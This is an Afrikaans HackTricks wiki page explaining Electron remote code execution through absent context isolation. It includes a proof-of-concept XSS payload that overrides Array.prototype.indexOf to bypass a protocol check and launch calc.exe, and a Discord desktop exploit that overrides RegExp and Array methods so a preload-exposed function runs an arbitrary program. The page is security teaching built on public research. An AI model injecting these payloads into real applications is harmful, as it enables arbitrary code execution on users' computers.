 # Electron contextIsolation RCE via preload code

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Voorbeeld 1

Voorbeeld van [https://speakerdeck.com/masatokinugawa/electron-abusing-the-lack-of-context-isolation-curecon-en?slide=30](https://speakerdeck.com/masatokinugawa/electron-abusing-the-lack-of-context-isolation-curecon-en?slide=30)

Hierdie kode open http(s) skakels met die standaardblaaier:

![](<../../../.gitbook/assets/image (768).png>)

Iets soos `file:///C:/Windows/systemd32/calc.exe` kan gebruik word om 'n rekenaarprogram uit te voer, die `SAFE_PROTOCOLS.indexOf` keer dit egter.

Daarom kan 'n aanvaller hierdie JS kode via die XSS of arbitrêre bladsy navigasie inspuit:
```html
<script>
Array.prototype.indexOf = function(){
return 1337;
}
</script>
```
Aangesien die oproep na `SAFE_PROTOCOLS.indexOf` altyd 1337 sal teruggee, kan die aanvaller die beskerming omseil en die kalkuleerder uitvoer. Finale uitbuiting:
```html
<script>
Array.prototype.indexOf = function(){
return 1337;
}
</script>
<a href="file:///C:/Windows/systemd32/calc.exe">CLICK</a>
```
Check die oorspronklike skyfies vir ander maniere om programme uit te voer sonder om 'n prompt te vra vir toestemmings.

Blykbaar is 'n ander manier om kode te laai en uit te voer om iets soos `file://127.0.0.1/electron/rce.jar` te benader.

## Voorbeeld 2: Discord App RCE

Voorbeeld van [https://mksben.l0.cm/2020/10/discord-desktop-rce.html?m=1](https://mksben.l0.cm/2020/10/discord-desktop-rce.html?m=1)

Toe ek die preload-skripte nagaan, het ek gevind dat Discord die funksie blootstel, wat toelaat dat sommige toegelate modules via `DiscordNative.nativeModules.requireModule('MODULE-NAME')` in die webblad aangeroep kan word.\
Hier kon ek nie modules gebruik wat direk vir RCE gebruik kan word nie, soos _child\_process_ module, maar ek **het 'n kode gevind waar RCE bereik kan word deur die ingeboude JavaScript-metodes te oorskry** en in te gryp in die uitvoering van die blootgestelde module.

Die volgende is die PoC. Ek kon bevestig dat die **calc** toepassing **verskyn** wanneer ek die **`getGPUDriverVersions` funksie** aanroep wat gedefinieer is in die module genoem "_discord\_utils_" van devTools, terwyl ek **die `RegExp.prototype.test` en `Array.prototype.join` oorskry**.
```javascript
RegExp.prototype.test=function(){
return false;
}
Array.prototype.join=function(){
return "calc";
}
DiscordNative.nativeModules.requireModule('discord_utils').getGPUDriverVersions();
```
Die `getGPUDriverVersions` funksie probeer om die program uit te voer deur die "_execa_" biblioteek te gebruik, soos die volgende:
```javascript
module.exports.getGPUDriverVersions = async () => {
if (process.platform !== 'win32') {
return {};
}

const result = {};
const nvidiaSmiPath = `${process.env['ProgramW6432']}/NVIDIA Corporation/NVSMI/nvidia-smi.exe`;

try {
result.nvidia = parseNvidiaSmiOutput(await execa(nvidiaSmiPath, []));
} catch (e) {
result.nvidia = {error: e.toString()};
}

return result;
};
```
Gewoonlik probeer die _execa_ om "_nvidia-smi.exe_" uit te voer, wat in die `nvidiaSmiPath`-veranderlike gespesifiseer is, egter, as gevolg van die oorgeskryfde `RegExp.prototype.test` en `Array.prototype.join`, **word die argument vervang met "**_**calc**_**" in die \_execa**\_**'s interne verwerking**.

Specifiek word die argument vervang deur die volgende twee dele te verander.

[https://github.com/moxystudio/node-cross-spawn/blob/16feb534e818668594fd530b113a028c0c06bddc/lib/parse.js#L36](https://github.com/moxystudio/node-cross-spawn/blob/16feb534e818668594fd530b113a028c0c06bddc/lib/parse.js#L36)

[https://github.com/moxystudio/node-cross-spawn/blob/16feb534e818668594fd530b113a028c0c06bddc/lib/parse.js#L55](https://github.com/moxystudio/node-cross-spawn/blob/16feb534e818668594fd530b113a028c0c06bddc/lib/parse.js#L55)

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**subskripsieplanne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

